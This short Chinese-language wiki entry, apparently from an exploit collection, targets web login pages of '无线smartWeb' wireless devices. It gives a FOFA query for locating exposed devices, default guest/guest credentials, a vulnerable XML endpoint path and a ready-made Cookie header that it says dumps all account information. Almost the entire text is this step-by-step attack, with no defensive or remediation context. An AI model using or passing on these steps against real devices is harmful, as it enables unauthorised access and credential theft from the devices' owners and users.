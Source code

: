 <languages  />

FOFA
----

    title="无线smartWeb--登录页面"

<translate>

默認guest密碼
-------------

</translate>

    guest/guest

<translate>

漏洞位置
--------

</translate>

    http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

<translate>

漏洞利用
--------

</translate>

<translate> Cookice添加以下內容 </translate>

    Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest

<translate> 可以獲取所有賬戶信息 </translate>

<translate>

參考
----

</translate> <https://mp.weixin.qq.com/s/EICYTqRWDRB8OfXKHxCBfQ>